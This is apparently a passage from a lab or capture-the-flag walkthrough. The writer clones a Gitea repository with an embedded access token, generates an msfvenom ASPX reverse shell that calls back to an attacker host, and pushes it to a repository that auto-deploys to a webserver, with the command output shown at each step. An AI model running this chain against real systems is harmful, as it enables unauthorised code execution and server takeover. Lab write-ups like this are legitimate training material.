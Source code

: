 Clone the website repository using the personal access token: [Link](https://github.com/go-gitea/gitea/issues/5701).
```bash
┌──(kali㉿kali)-[~]
└─$ git clone <http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@10.10.117.165:3000/ellen.freeman/website>
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 2.04 MiB/s, done.
Resolving deltas: 100% (35/35), done.
```

In the readme we find out that any change that is made to the repo is automatically deployed to the webserver, perhaps we can commit a reverse shell?
```bash
┌──(kali㉿kali)-[~/website]
└─$ cat readme.md    
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver
```

In order to push to the repo we first have to use git config.
```bash
┌──(kali㉿kali)-[~/website]
└─$ git config --global credential.helper store

┌──(kali㉿kali)-[~/website]
└─$ git config --global user.email "test@test.com"

┌──(kali㉿kali)-[~/website]
└─$ git config --global user.name "ellen.freeman"
```

Generate the ASPX reverse shell payload.
```bash
┌──(kali㉿kali)-[~/website]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.1.49 LPORT=443 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3427 bytes
```

Now we can add the reverse shell file to our commit and push to the origin.
```bash
┌──(kali㉿kali)-[~/website]
└─$ git add shell.aspx  

┌──(kali㉿kali)-[~/website]
└─$ git commit -m reverse
[main 8e7d433] reverse
 1 file changed, 40 insertions(+)
 create mode 100644 reverse.aspx

┌──(kali㉿kali)-[~/website]
└─$ git push origin      
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 1.31 KiB | 1.31 MiB/s, done.
```